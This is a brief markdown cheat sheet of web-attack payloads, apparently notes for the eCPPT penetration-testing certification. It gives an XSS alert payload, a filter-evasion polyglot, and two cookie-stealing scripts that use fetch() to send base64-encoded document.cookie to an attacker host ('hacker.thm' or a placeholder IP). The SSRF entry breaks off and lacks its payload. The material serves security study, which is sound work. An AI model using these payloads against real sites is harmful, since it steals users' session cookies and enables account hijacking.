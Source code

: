 ## eCPPT Tools


SSRF Example

```
In this example, the attacker can control the server's subdomain to which the request is made. Take note of the payload ending in &x= being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter (?x=) on the query string. Next
```

XSS Example

```
<script>alert('XSS');</script>

```

Cookie stealing
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

```

Closign the input tag
```
The important part of the payload is the "> which closes the value parameter and then closes the input tag.

```

Polyglots

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

```

Fetch Cookie using Javascript

```
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>

```

